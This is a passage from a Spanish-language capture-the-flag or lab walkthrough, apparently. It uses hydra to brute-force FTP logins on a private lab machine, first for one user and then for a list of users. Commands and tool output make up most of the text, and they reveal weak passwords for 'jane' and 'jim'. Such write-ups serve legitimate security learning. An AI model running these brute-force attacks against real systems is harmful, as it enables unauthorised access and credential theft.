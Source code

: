 Si probamos a tirar un `hydra` con ese nombre de usuario no encontraremos nada, pero si probamos con el `ftp` veremos lo siguiente...

```shell
hydra -l jane -P <WORDLIST> ftp://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-20 10:39:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.5.195:21/
[21][ftp] host: 192.168.5.195   login: jane   password: password
```

Con esto vemos que tenemos las credenciales de `jane` del `ftp`...

```shell
ftp jane@<IP>
```

Y si metemos la contarseña estaremos dentro...

Si listamos la `/home` de los usuarios, veremos varios usuarios, por lo que crearemos una lista de los usuarios, para ver si hay alguna contraseña mas por el `ftp`...

> users.txt

```
jane
jim
john
jules
```

Por lo que tiraremos un `hydra`...

```shell
hydra -L users.txt -P <WORDLIST> ftp://<IP> -t 64
```

Info:

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-20 10:54:40
[DATA] max 64 tasks per 1 server, overall 64 tasks, 57377596 login tries (l:4/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.5.195:21/
[21][ftp] host: 192.168.5.195   login: jane   password: password
[21][ftp] host: 192.168.5.195   login: jim   password: 12345
```
